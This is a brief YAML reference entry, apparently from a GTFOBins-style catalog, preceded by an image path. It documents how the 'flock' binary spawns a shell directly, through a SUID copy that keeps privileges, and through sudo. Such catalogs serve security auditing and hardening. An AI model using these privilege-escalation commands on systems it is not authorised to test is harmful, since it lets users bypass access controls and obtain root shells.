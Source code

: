```yaml
---
functions:
  shell:
    - code: flock -u / /bin/sh
  suid:
    - code: ./flock -u / /bin/sh -p
  sudo:
    - code: sudo flock -u / /bin/sh
---
```

